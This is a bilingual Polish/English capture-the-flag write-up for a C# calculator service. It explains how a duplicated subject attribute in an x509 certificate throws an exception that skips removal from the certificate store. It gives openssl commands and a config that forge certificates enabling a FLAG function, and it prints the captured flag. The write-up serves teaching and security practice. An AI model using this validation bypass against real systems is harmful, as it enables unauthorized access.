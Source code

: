 ﻿## calcexec I (pwn, 200p, 7 solves)

> 2+2 == [5](Calc.exe)?  
> nc 185.82.202.146 1337

### PL
[ENG](#eng-version)

Zadanie to usługa ewaluatora wyrażeń matematycznych napisana w C#. Widzimy, że jedną z funkcji ewalutora jest wypisanie nam flagi.

```csharp
calcEngine.RegisterFunction("FLAG", 0, (p => File.ReadAllText("flag1")));
```

Niestety, konstruktor ewalutora przyjmuje listę dozwolonych funkcji i domyślnie jest ona pusta. Możemy natomiast je podać w certyfikacie x509 w jego dodatkowym rozszerzeniu.

```csharp
X509Extension x509Extension = cert.Extensions["1.1.1337.7331"];
if (x509Extension != null)
	calcEngine = Program.InitCalcEngine(Enumerable.ToArray(
		Enumerable.Select(Encoding.Default.GetString(
			x509Extension.RawData).Split(','), (x => x.Trim()))));
```

Niestety nie możemy wysłać jednak dowolnego certyfikatu. Są one w kilku krokach weryfikowane.

Nie możemy podać certyfikatu o subjekcie już wczytanego:

```csharp
string key = new X509Name(x509Certificate2.Subject).ToString();
if (this.Items.ContainsKey(key))
	throw new Exception("Certificate is already loaded!");
```

Subject certyfikatu musi zawierać podany identifier:
```csharp
return Enumerable.SingleOrDefault(Enumerable.OfType<string>(
	new X509Name(cert.Subject).GetValues(
		new DerObjectIdentifier("2.5.4.1337")))) == "calc.exe";
```

Issuer certyfikatu nie może być nim sam:
```csharp
string name1 = new X509Name(certificateName).ToString();
X509Certificate2 certificateByName = this.Store.FindCertificateByName(name1);
string name2 = new X509Name(certificateByName.Issuer).ToString();
if (name2 == name1)
	return false;
```

Oraz ostatecznie jest sprawdzana jego sygnatura kluczem publicznym wczytanego wcześniej issuera.
```csharp
Asn1Sequence asn1Sequence = new Asn1InputStream(this.Store.FindCertificateByName(name2)
	.GetPublicKey()).ReadObject();
DotNetUtilities.FromX509Certificate(certificateByName).Verify(
	new RsaKeyParameters(false, ((DerInteger) asn1Sequence[0]).Value,
		((DerInteger) asn1Sequence[1]).Value));
```

Jeżeli któryś z checków nie powiedzie się, wczytany certyfikat jest usuwany ze store'a.

Żeby móc wczytać własny certyfikat musimy znaleźć lukę w którymś z powyższych kodów. Dwa ostatnie zamknięte były w bloku try-catch, ale jeżeli udałoby się wywołać wyjątek w jednym z pozostałych to certyfikat nie zostałby usunięty.

Okazuje się, że certyfikaty x509 mogą posiadać wiele identyfikatorów z tą samą nazwą. Jeżeli więc spreparujemy certyfikat z więcej niż jednym identyfikatorem "2.5.4.1337" spowoduje to wyjątek przy wywołaniu `SingleOrDefault()`, które oczekuje co najwyżej jednego elementu.

Gdyby w ten sposób udało się wczytać certyfikat to będziemy mogli stworzyć certyfikat, który przejdzie wszystkie te checki.

```
openssl req -new -nodes -keyout CA.key -subj "/CN=MyCalc/O=MyCalc/OU=MyCalc/calc=MyCalc/calc=MyCalc" > CA.csr
openssl x509 -sha1 -req -signkey CA.key < CA.csr > CA.crt
openssl req -new -nodes -keyout client.key -config config -extensions cert_extensions > client.csr
openssl x509 -extfile config -extensions cert_extensions -sha1 -req -CAkey CA.key -CA CA.crt < client.csr > client.crt 
```

Oraz plik konfiguracyjny dla openssl:

```
oid_section	= new_oids 
[ new_oids ] 
fooname = 2.5.4.1337

[ req ] 
default_bits       = 2048 
distinguished_name = req_distinguished_name 
attributes         = req_attributes 
prompt             = no 
x509_extensions    = cert_extensions

[ req_distinguished_name ] 
fooname = calc.exe
CN = calc.exe
O = calc.exe
emailAddress = calc@asis-ctf.ir
L = Iran
C = IR

[ req_attributes ] 

[ cert_extensions ] 
1.1.1337.7331 = ASN1:UTF8:ABS,ACOS,ASIN,ATAN,ATAN2,CEILING,COS,COSH,EXP,FLOOR,INT,LN,LOG,LOG10,PI,POWER,RAND,RANDBETWEEN,SIGN,SIN,SINH,SQRT,SUM,SUMIF,TAN,TANH,TRUNC,AVERAGE,AVERAGEA,COUNT,COUNTA,COUNTBLANK,COUNTIF,MAX,MAXA,MIN,MINA,STDEV,STDEVA,STDEVP,STDEVPA,VAR,VARA,VARP,VARPA,CHAR,CODE,CONCATENATE,FIND,LEFT,LEN,LOWER,MID,PROPER,READ,REPLACE,REPT,RIGHT,SEARCH,SUBSTITUTE,T,TEXT,TRIM,UPPER,VALUE,WRITE,FLAG
```

W ten sposób przygotowane certyfikaty udaje się wczytać do programu oraz wywołać funkcję FLAG.

`ASIS{e5cb5e25f77c1da6626fb78a48a678f3}`

### ENG version

The task is a mathematical expressions evaluator service written in C#. We can see that one of the functions is printing the flag.

```csharp
calcEngine.RegisterFunction("FLAG", 0, (p => File.ReadAllText("flag1")));
```

Unfortunately, the evaluator constructor takes a list of allowed functions and by default it's empty. We can, however, add those in x509 certificates in the added extension.

```csharp
X509Extension x509Extension = cert.Extensions["1.1.1337.7331"];
if (x509Extension != null)
	calcEngine = Program.InitCalcEngine(Enumerable.ToArray(
		Enumerable.Select(Encoding.Default.GetString(
			x509Extension.RawData).Split(','), (x => x.Trim()))));
```

However, we can't just send any certificate. They are verified in multiple steps.

We can't send a certificate with already loaded subject:

```csharp
string key = new X509Name(x509Certificate2.Subject).ToString();
if (this.Items.ContainsKey(key))
	throw new Exception("Certificate is already loaded!");
```

Subject of the certificate has to contain given identifier:
```csharp
return Enumerable.SingleOrDefault(Enumerable.OfType<string>(
	new X509Name(cert.Subject).GetValues(
		new DerObjectIdentifier("2.5.4.1337")))) == "calc.exe";
```

Certificate issuer can't be himself:
```csharp
string name1 = new X509Name(certificateName).ToString();
X509Certificate2 certificateByName = this.Store.FindCertificateByName(name1);
string name2 = new X509Name(certificateByName.Issuer).ToString();
if (name2 == name1)
	return false;
```

And finally it is checked with public key of the issuer read previously.
```csharp
Asn1Sequence asn1Sequence = new Asn1InputStream(this.Store.FindCertificateByName(name2)
	.GetPublicKey()).ReadObject();
DotNetUtilities.FromX509Certificate(certificateByName).Verify(
	new RsaKeyParameters(false, ((DerInteger) asn1Sequence[0]).Value,
		((DerInteger) asn1Sequence[1]).Value));
```

If any of the checks fails the certificate is removed from the store.

In order to be able to load our own certificate we need to find a loophole in one of the codes above. The last two are in try-catch block, but if we could raise an exception in one of the remaining ones then the certificate would not get removed.

It turns out that x509 certificates can have multiple identifiers with the same name. Therefore if we prepare a certificate with more than one identifier "2.5.4.1337" it will cause an exception during `SingleOrDefault()` call, which expects at most one element.

If we could load a certificate this way, we could create a certificate which will pass all the checks.

```
openssl req -new -nodes -keyout CA.key -subj "/CN=MyCalc/O=MyCalc/OU=MyCalc/calc=MyCalc/calc=MyCalc" > CA.csr
openssl x509 -sha1 -req -signkey CA.key < CA.csr > CA.crt
openssl req -new -nodes -keyout client.key -config config -extensions cert_extensions > client.csr
openssl x509 -extfile config -extensions cert_extensions -sha1 -req -CAkey CA.key -CA CA.crt < client.csr > client.crt 
```

And the openssl config file:

```
oid_section	= new_oids 
[ new_oids ] 
fooname = 2.5.4.1337

[ req ] 
default_bits       = 2048 
distinguished_name = req_distinguished_name 
attributes         = req_attributes 
prompt             = no 
x509_extensions    = cert_extensions

[ req_distinguished_name ] 
fooname = calc.exe
CN = calc.exe
O = calc.exe
emailAddress = calc@asis-ctf.ir
L = Iran
C = IR

[ req_attributes ] 

[ cert_extensions ] 
1.1.1337.7331 = ASN1:UTF8:ABS,ACOS,ASIN,ATAN,ATAN2,CEILING,COS,COSH,EXP,FLOOR,INT,LN,LOG,LOG10,PI,POWER,RAND,RANDBETWEEN,SIGN,SIN,SINH,SQRT,SUM,SUMIF,TAN,TANH,TRUNC,AVERAGE,AVERAGEA,COUNT,COUNTA,COUNTBLANK,COUNTIF,MAX,MAXA,MIN,MINA,STDEV,STDEVA,STDEVP,STDEVPA,VAR,VARA,VARP,VARPA,CHAR,CODE,CONCATENATE,FIND,LEFT,LEN,LOWER,MID,PROPER,READ,REPLACE,REPT,RIGHT,SEARCH,SUBSTITUTE,T,TEXT,TRIM,UPPER,VALUE,WRITE,FLAG
```

We succeed in loading certificates prepared this way and call the FLAG function: `ASIS{e5cb5e25f77c1da6626fb78a48a678f3}`
